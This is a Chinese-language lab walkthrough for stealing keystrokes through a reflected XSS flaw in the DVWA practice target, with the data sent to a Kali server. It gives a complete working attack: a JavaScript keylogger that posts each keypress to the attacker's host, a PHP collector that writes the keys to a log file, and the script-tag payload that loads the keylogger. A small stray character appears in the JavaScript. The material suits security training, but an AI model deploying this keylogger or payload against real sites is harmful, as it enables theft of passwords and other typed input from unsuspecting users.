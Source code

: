 # XSS盗取键盘记录案列

```
本实验以反射性的XSS漏洞为例
实验环境：dvwa靶机(ip:192.168.0.59)
kali linux(ip:192.168.0.99)
```

## 0x01 	首先开启kali上的apache服务。

```
/etc/init.d/apache2 start
```

在kali的浏览器输入：http://192.168.0.99 或 http://localhost 地址进行访问测试，检查apache是否开启成功。

![image.png](http://ww1.sinaimg.cn/large/007bHQE8gy1g7xjv2bneaj30w10lsad1.jpg)

本次实验采用的是firefox，

## 0x02  进入kali的`/var/www/html`路径创建三个文件。

​	Keylogger.js

​	Keylogger.php

​	Keylog.txt

​	(1)keylogger.js[程js脚本文件]

```
document.onkeypress = function(evt) {
    evt = evt || window.event
    key = String.fromCharCode(evt.charCode)
    if (key) {8
        var http = new XMLHttpRequest();
        var param = encodeURI(key)
        http.open("POST","http://192.168.0.99/Keylogger.php",true);
        http.setRequestHeader("Content-type","application/x-www-form-urlencoded");
        http.send("key="+param);
    }
}             

```

​	（2)keylogger.php 【用于将键盘上的敲击的记录通过POST传送到keylog.txt中】

```
<?php
$key = $_POST['key'];
$log = fopen("keylog.txt","a");
fwrite($log,$key);
fclose($log);
?>
```

​	(3)keylog.txt 【空文件用于接收键盘的记录】

## 0x03 .  XSS漏洞测试开始

​	1）在浏览器访问dvwa靶机并且登录

![image.png](http://ww1.sinaimg.cn/large/007bHQE8gy1g7xk3n6ua0j30vp0s2417.jpg)

（2）在输入框中输入以下代码

```
<script src="http://192.168.0.99/Keylogger.js "></script>
```

![image.png](http://ww1.sinaimg.cn/large/007bHQE8gy1g7xk5s95jaj30vx0prtbb.jpg)

（3）紧接着在这个页面随意敲击键盘并查看keylog.txt是否有记录

![image.png](http://ww1.sinaimg.cn/large/007bHQE8gy1g7xk9ty3gaj31gk0rx47q.jpg)

通过执行js脚本成功获取到键盘记录。